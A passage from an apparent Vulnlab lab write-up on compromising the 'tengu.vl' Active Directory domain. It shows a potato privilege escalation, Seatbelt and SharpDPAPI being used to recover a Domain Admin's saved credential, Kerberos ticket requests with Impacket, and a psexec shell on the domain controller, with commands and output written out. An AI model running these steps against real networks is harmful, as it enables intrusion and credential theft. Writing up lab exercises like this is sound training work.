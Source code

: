 We receive connection and we see we have `SeImpersonatePrivileges`, so let's upload potato and exploit it

![](8.png)

Run the potato and get system beacon

![](9.png)

## DC.tengu.vl
We find interesting folder `C:\admin` with `Task.ps1` file, implying that there's some scheduled task running.

![](10.png)

Rinning `Seatbelt.exe ScheduledTasks` shows that there's scheduled task running as `T0_c.fowler` who is a member of `Domain Admins` group

![](11.png)

![](12.png)

Let's try retrieve saved credentials via `SharpDPAPI.exe machinetriage /showall`

![](13.png)

If we check creds, we receive `STATUS_ACCOUNT_RESTRICTION`
```
└─$ proxychains -q nxc smb dc.tengu.vl -u T0_c.fowler -p '<REDACTED>'
SMB         224.0.0.1       445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         224.0.0.1       445    DC               [-] tengu.vl\T0_c.fowler:<REDACTED> STATUS_ACCOUNT_RESTRICTION
```

This means that user is probably in protected group, thus we can't login using ntlm method. Thus we have to use kerberos authentication

```
└─$ proxychains -q getTGT.py 'tengu.vl/T0_c.fowler:<REDACTED>' -dc-ip dc.tengu.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in T0_c.fowler.ccache
```

Now we can use ticket to connect
```
└─$ KRB5CCNAME=T0_c.fowler.ccache proxychains -q psexec.py -k -no-pass dc.tengu.vl
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.tengu.vl.....
[*] Found writable share ADMIN$
[*] Uploading file PPqvBFdk.exe
[*] Opening SVCManager on dc.tengu.vl.....
[*] Creating service kQqP on dc.tengu.vl.....
[*] Starting service kQqP.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.2322]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

[https://api.vulnlab.com/api/v1/share?id=e9da71c3-ef25-404a-bcca-e5e512ebb807](https://api.vulnlab.com/api/v1/share?id=e9da71c3-ef25-404a-bcca-e5e512ebb807)